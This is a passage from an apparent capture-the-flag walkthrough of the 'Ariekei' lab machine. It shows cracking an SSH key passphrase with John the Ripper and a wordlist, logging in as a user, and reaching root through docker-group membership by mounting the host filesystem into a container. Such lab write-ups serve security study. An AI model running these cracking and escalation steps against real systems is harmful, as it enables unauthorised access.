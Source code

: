```bash
kali@kali:~/boxes/ariekei$ /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
kali@kali:~/boxes/ariekei$ ls
exploit.py  hack.mvg  id_rsa  id_rsa_hash  nmap  notes
kali@kali:~/boxes/ariekei$ sudo john id_rsa_hash -w=/home/kali/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
purple1          (id_rsa)
1g 0:00:00:07 DONE (2020-06-14 05:11) 0.1394g/s 2000Kp/s 2000Kc/s 2000KC/sa6_123..*7¡Vamos!
Session completed
```

And we got a password! `purple1`

We then ssh as the user `spanishdancer`(the home dir of where we found the ssh key in belonged to this user)
```bash
kali@kali:~/boxes/ariekei$ ssh -i id_rsa spanishdancer@10.10.10.65
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.10.65 (10.10.10.65)' can't be established.
ECDSA key fingerprint is SHA256:00QUDuqn+W8071V5kz4hM6rnINCedq8xiLh4igg9+XM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.65' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Mon Nov 13 10:23:41 2017 from 10.10.14.2
spanishdancer@ariekei:~$ ls
content  user.txt
spanishdancer@ariekei:~$ cat user.txt
ff0bca827a5f660f6d35df7481e5f216
```
Running `id` confirms that the user is part of a docker group, we will see if we can exploit this.
```bash
spanishdancer@ariekei:~$ id
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)
spanishdancer@ariekei:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
waf-template        latest              399c8876e9ae        2 years ago         628MB
bastion-template    latest              0df894ef4624        2 years ago         251MB
web-template        latest              b2a8f8d3ef38        2 years ago         185MB
bash                latest              a66dc6cea720        2 years ago         12.8MB
convert-template    latest              e74161aded79        4 years ago         418MB
```
It shows that the user is part of the docker gorup, this is often used because they give access to users in a dedicated group to run commands as root for docker as docker needs root privelages, this makes priv esc simple as we simply use the docker image as a template to priv esc  
```bash
spanishdancer@ariekei:~$ docker run -v /:/rootexploit -i -t bash
bash-4.4# ls
bin          etc          lib          mnt          root         run          srv          tmp          var
```